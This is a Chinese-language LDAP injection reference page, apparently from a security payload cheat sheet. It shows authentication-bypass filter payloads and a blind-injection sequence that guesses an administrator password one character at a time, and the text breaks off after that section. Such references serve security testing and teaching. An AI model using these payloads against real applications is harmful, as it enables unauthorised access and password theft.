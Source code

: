 # LDAP 注入

> LDAP 注入是一种针对基于 Web 的应用程序的攻击方式，这些应用程序根据用户输入构建 LDAP 语句。当应用程序未能正确清理用户输入时，攻击者可以使用本地代理修改 LDAP 语句。

## 目录

* [方法学](#方法学)
    * [认证绕过](#认证绕过)
    * [盲注利用](#盲注利用)
* [默认属性](#默认属性)
* [利用 userPassword 属性](#利用-userpassword-属性)
* [脚本](#脚本)
    * [发现有效 LDAP 字段](#发现有效-ldap-字段)
    * [特殊盲注 LDAP 注入](#特殊盲注-ldap-注入)
* [实验](#实验)
* [参考资料](#参考资料)
* [LDAP 注入原理](#ldap-注入原理)
* [防御措施](#防御措施)

## 方法学

LDAP 注入是一种漏洞，当用户提供的输入在未经适当清理或转义的情况下用于构建 LDAP 查询时就会发生。

### 认证绕过

尝试通过注入始终为真的条件来操纵过滤器逻辑。

**示例 1**：此 LDAP 查询利用查询结构中的逻辑运算符绕过认证

```sql
user  = *)(uid=*))(|(uid=*
pass  = password
query = (&(uid=*)(uid=*))(|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))
```

**示例 2**：此 LDAP 查询利用查询结构中的逻辑运算符绕过认证

```sql
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))
```

### 盲注利用

此场景展示了使用类似于二分查找或基于字符的暴力破解技术来发现密码等敏感信息的 LDAP 盲注。它依赖于 LDAP 过滤器根据条件是否匹配来响应查询，而不会直接显示实际密码。

```sql
(&(sn=administrator)(password=*))    : 成功
(&(sn=administrator)(password=A*))   : 失败
(&(sn=administrator)(password=B*))   : 失败
...
(&(sn=administrator)(password=M*))   : 成功
(&(sn=administrator)(password=MA*))  : 失败
(&(sn=administrator)(password=MB*))  : 失败
...
(&(sn=administrator)(password=MY*))  : 成功
(&(sn=administrator)(password=MYA*)) : 失败
(&(sn=administrator)(password=MYB*)) : 失败
(&(sn=administrator)(password=MYC*)) : 失败
...
(&(sn=administrator)(password=MYK*)) : 成功
(&(sn=administrator)(password=MYKE)) : 成功
```
